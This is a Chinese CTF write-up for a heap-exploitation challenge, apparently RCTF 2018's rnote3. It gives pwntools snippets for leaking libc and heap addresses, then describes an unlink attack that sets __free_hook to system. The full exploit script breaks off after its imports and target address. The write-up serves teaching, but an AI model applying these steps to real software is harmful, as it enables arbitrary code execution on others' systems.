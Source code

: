 #### Step 1: 泄露libc地址 ####
首先通过show\_note()函数对之后想要释放的堆块进行定位，然后调用delete\_note()函数，传入一个当前不存在的title值，此时程序遍历当前note列表，无法找到对应title的note，因此就不会对ptr指针进行更新，默认释放了之前show_note()函数对该栈地址设定的值。并且对note\_list进行清空时，i=32，note\_list[32]=0。 
 
	step 1: leak libc
	show_note('c')
	rl()
	delete_note('ccc')
	show_note('\x00')
	ru('content: ')
	top_addr = u64(rv(6).ljust(8,'\x00'))
	lg('top_addr',top_addr)
	libc.address = top_addr - 0x58 - 0x3C4B20
	lg('libc_addr',libc.address)
一个需要注意的点是，保存note结构的chunk是一个fastbin，当对该fastbin进行free后，如果该fastbin是对应fastbin链表中第一个被释放的，fd位置会被清0，而fd的位置正好保存了title值。因此查找时不应该查找原title值，应该查找'\x00'。
#### Step 2: 泄露堆地址 ####
方法与lead libc相同，不同的在于，需要释放一个conten也为fastbin大小（0x30）的note。然后申请一个content大小为smallbin大小的note，将刚才释放的note结构（0x20）申请回来。再次释放一个content大小为fastbin大小（0x30）的note，此时0x30大小的fastbin空闲链表中就有2个chunk，其中第一个chunk的fd字段就为一个heap地址，并且0x20大小的fastbin空闲链表中只有一个chunk（note结构），其fd字段为0。

	step 2: leak heap_addr
	add_note('c',0x88,payload)
	
	show_note('a')
	rl()
	delete_note('ccc')
	add_note('e',0x88,payload)
	show_note('d')
	rl()
	delete_note('ccc')
	show_note('\x00')
	ru('content: ')
	heap_addr = u64(rv(6).ljust(8,'\x00')) - 0x20
	lg('heap_addr',heap_addr)
#### Step 3: 触发unlink，修改free_hook为system ####
通过堆布局，使两个smallbin（content）在堆空间布局上连续。然后释放相邻的两个smallbin，并再次申请一个content大小为0x90（大于0x88即可）的note结构。覆写下一个chunk的presize和size字段，然后释放下一个chunk，出发unlink。  
之后覆写free_hook为system，成功实现利用。  
### 利用方法2:UAF+Fastbin Attack ###
未完待续。。。。。
## 3.expolit代码 ##
    from pwn import *
    from ctypes import *
    import os
    #import roputils as rop
    
    remote_addr = "rnote3.2018.teamrois.cn"
    remote_port = 7322
    